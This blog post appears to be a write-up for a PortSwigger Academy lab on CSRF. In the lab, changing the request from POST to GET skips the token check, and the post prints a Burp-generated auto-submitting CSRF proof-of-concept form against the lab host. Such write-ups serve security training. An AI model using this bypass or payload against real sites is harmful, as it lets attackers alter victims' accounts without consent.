 ```yaml
---
layout: post
title:  "CSRF where token validation depends on request method"
date:   2024-10-01 09:39:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login with the credentials provided `wiener:peter` and we have a functionality to update the email 

![]({{ site.baseurl }}/assets/images/csrf-1.png) 

Intercepted the request of update email in burp, As a result we can see that there is a `302` redirect 

![]({{ site.baseurl }}/assets/images/csrf-2.png) 

Now, I removed the values of `csrf` parameter in the `POST` body and sent the request.. As you see where we faced an error here called `"Missing parameter 'csrf'"` 

![]({{ site.baseurl }}/assets/images/csrf-3.png) 

Changed the request method from `POST` to `GET` bypassed and we can able to update the email without any CSRF token out there 

![]({{ site.baseurl }}/assets/images/csrf-4.png)

Awesome, we will generate CSRF POC using engagement tools from burpsuite and here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3b0057035328af808c7bd000e50052.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In the exploit server, we will paste the above HTML code as a body and click on `store` and then `deliver exploit to victim` will solve the lab 

![]({{ site.baseurl }}/assets/images/csrf-5.png)